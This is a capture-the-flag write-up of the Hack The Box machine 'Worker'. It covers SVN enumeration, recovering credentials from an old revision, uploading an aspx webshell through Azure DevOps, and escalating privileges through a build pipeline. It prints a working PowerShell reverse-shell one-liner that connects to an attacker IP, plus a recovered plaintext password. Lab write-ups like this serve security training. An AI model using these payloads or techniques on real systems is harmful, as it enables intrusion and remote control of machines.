# Worker


## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)


## Box

 


## Profile

[](https://www.hackthebox.eu/home/users/profile/419539)


## Enumeration

First, nmap scan:

 


Port 80 is open and Microsoft IIS is used. After a look in the website, i found nothing. So, i tried to look for the 3690 port which is svn service.

I start to list the files in the the svn server using the command:

```bash
svn list svn://10.10.10.203
```

 

After that, i start to connect to this server with:

```bash
svn co svn://10.10.10.203
```

I got this files. In the directory, i read the `index.html` file and got lot of new subdomains:

 


I found another new subdomain `devops.worker.htb` in `moved.txt` file:

 

After adding the subdomains to my `/etc/hosts` file, i tried to connect on my browser to this webpages. I found nothing on this webpages but `devops.worker.htb` wanted authentication.

So i continue my searches on the svn server to get credentials.

I checked all revisions commited with:

```bash
svn log -v svn://10.10.10.203
```

 


I found a file which is not on the current revision but on the revision 2, so i tried to get it with the export option:

```bash
svn export -r 2 svn://10.10.10.203 revision2
```

 

Got it. Have a look in this file and we got credentials:

 

Now we can log in the previous webpage.


## Exploitation

Here, Azure Devops is deployed. I search a while on this webpage and i found the subdomains builds on the Azure pipeline section:

 


So, i executed the build pipeline, after that, i found a lot of information about how the website is deployed:

 


I tried to add the `_git/aplha` path to the git repository url: `http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha`

So, i have access to the website git repository, and for all user found previously. First, i create a new branch on the git repo of Lens, after that, i tried to upload different type of files and the **aspx** extension worked. So i upload an **aspx webshell** file, commit it:

 


After that, i had to validate a pull request to merge the temperaly branch to the master branch:

 


I tried to load shell.aspx: `http://lens.worker.htb/shell.aspx` and i got the webshell:

 


I start my port listener:

```bash
nc -lvp 4242
```


And enter the following payload to get my shell:

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.124',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


And i got it:

 


Go to `c:\Users` to list the user, see that is **robisl**, after that, i continue to search credentials and i got a file in the following path `w:\svnrepos\conf\passwd`, and i found **robisl** password  :

 


## Post-exploitation

### User

I tried to use a windows remote management tool called **evil-winrm** to create remote connection to **robisl** account: 

```bash
evil-winrm -i devops.worker.htb -u robisl -p wolves11
```

 And it worked:

 


### Root

First, i connected to **robisl** account on `devops.worker.htb`, and after some searches, i found that i can trigger powershell command remotely with administrator privileges.

To trigger it, i went to the pipeline section to create a build and i added powershell script to make reverse shell:

 


After that, i saved and add it on the queue:

 


When i clicked on this build, i got the reverse shell and owned root:

 

